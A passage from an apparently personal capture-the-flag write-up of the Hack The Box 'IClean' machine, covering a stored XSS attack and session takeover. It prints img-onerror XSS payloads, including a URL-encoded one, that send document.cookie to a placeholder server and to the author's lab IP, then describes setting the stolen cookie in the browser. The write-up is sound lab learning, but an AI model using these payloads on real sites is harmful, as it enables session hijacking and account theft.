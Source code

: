 ```javascript
<img src=x onerror=this.src="http://<YOUR_SERVER_IP>/?c="+document.cookie>
```

My version looked something more like

```javascript
<img src=x onerror=fetch("http://10.10.14.167:8000/"+document.cookie);>
```

This didn't initially work just sending through Repeater so I had to rethink and tried encoding different things and eventually landed on

```javascript
<img+src=x+onerror%3dfetch("http%3a//10.10.14.167%3a8000/"%2bdocument.cookie
)%3b>&email=13%40htb.com
```

This worked. Ignore the weird request parameters here, I'm not entirely sure what happened with this screenshot 🤔

![xss](../../assets/images/iclean-xss-document-cookie.webp)

And after sending it in Repeater, we did get the session cookie

![cookie](../../assets/images/iclean-getting-session-token.webp)

I didn't use any browser extensions or anything here, though I probably should have. I initially added this to the `/dashboard` path in the Developer Tools under cookies for `capiclean.htb` but I kept having problems with getting redirected back to `/` for some reason. So I researched some on the `Path` attribute for cookies and found that it determines the _path_ (crazy, right?!) that the cookie is valid for. I figured `/dashboard` should have worked, but since it wasn't I stuck `/` in and it started working no problem between page changes and wasn't redirecting me anymore.

![dev-tools](../../assets/images/iclean-session-token-root-path.webp)
